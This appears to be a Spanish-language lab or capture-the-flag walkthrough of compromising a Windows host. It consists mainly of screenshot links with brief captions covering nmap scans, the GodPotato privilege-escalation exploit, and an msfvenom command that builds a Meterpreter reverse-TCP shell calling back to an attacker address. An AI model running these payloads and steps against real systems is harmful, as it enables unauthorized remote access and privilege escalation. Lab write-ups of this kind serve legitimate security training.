
nmap -sn 192.168.223.0/24

nmap -O 192.168.223.128

Nos descargamos la vulnerabilidad GodPotato



ya que la maquina esta rota, vamos a meter una shell manual y abrimos un meterpreter
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.10 LPORT=4444 -f exe -o shell.exe






preparamos escucha antes de ejecutar

ejecutamos

es incompatible, tenemos que usar el de x64

ahora si


sesion background

nos va a recopilar que exploit funcionaria


nos falto el lhost (fallo mio xd)

se reinicio la maquina lol, hay que ejecutar de nuevo el shell






